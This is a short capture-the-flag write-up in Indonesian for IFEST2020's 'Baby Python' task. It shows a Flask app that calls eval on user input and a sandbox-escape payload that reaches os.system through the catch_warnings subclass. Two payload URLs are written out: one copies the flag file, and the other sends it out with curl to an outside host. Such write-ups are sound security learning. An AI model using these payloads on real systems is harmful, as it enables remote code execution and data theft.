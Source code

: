 # Baby Python

Diberikan source code dari web aplikasi (python) sebagai berikut :

```python
from flask import Flask,request

app = Flask(__name__)

@app.route("/")
def index():
    req = request.args.get("baby","True")
    print(req)
    eval(req,{"__builtins__":{}},{})
    return "OK"

if __name__ == "__main__":
    app.run()
```

Pada source code tersebut terdapat fungsi eval, akan tetapi pada fungsi tersebut kami tidak bisa langsung melakukan code execution karena adanya parameter globals yang dibatasi. Kami menggunakan subclass catch_warnings untuk melakukan import modul os dan menjalankan command execution. Berikut payload final yang kami gunakan :

```
http://103.146.203.17:3003/?baby=[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cp /flag* /tmp/asu')

http://103.146.203.17:3003/?baby=[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('curl ip:1333 --data @/tmp/asu')
```

Flag: IFEST2020{5d89320ac7ab789ac1beb60c294f526e}
